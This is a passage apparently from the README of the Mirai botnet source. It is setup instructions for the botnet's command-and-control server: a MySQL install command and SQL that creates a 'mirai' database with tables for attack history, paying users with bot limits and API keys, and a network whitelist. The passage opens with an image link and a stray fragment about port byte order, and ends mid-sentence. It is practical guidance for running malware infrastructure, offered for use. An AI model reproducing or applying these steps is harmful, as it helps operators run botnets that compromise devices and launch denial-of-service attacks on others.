 Some values are strings, some are port (uint16 in network order / big endian).


## Configuring CNC

```bash    
apt-get install mysql-server mysql-client
```
    
CNC requires database to work. When you install database, go into it and run following commands:

```sql

CREATE DATABASE mirai;

CREATE TABLE `history` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `user_id` int(10) unsigned NOT NULL,
  `time_sent` int(10) unsigned NOT NULL,
  `duration` int(10) unsigned NOT NULL,
  `command` text NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  PRIMARY KEY (`id`),
  KEY `user_id` (`user_id`)
);

CREATE TABLE `users` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `username` varchar(32) NOT NULL,
  `password` varchar(32) NOT NULL,
  `duration_limit` int(10) unsigned DEFAULT NULL,
  `cooldown` int(10) unsigned NOT NULL,
  `wrc` int(10) unsigned DEFAULT NULL,
  `last_paid` int(10) unsigned NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  `admin` int(10) unsigned DEFAULT '0',
  `intvl` int(10) unsigned DEFAULT '30',
  `api_key` text,
  PRIMARY KEY (`id`),
  KEY `username` (`username`)
);

CREATE TABLE `whitelist` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `prefix` varchar(16) DEFAULT NULL,
  `netmask` tinyint(3) unsigned DEFAULT NULL,
  PRIMARY KEY (`id`),
  KEY `prefix` (`prefix`)
);

```


This will create database for you. To add your user,
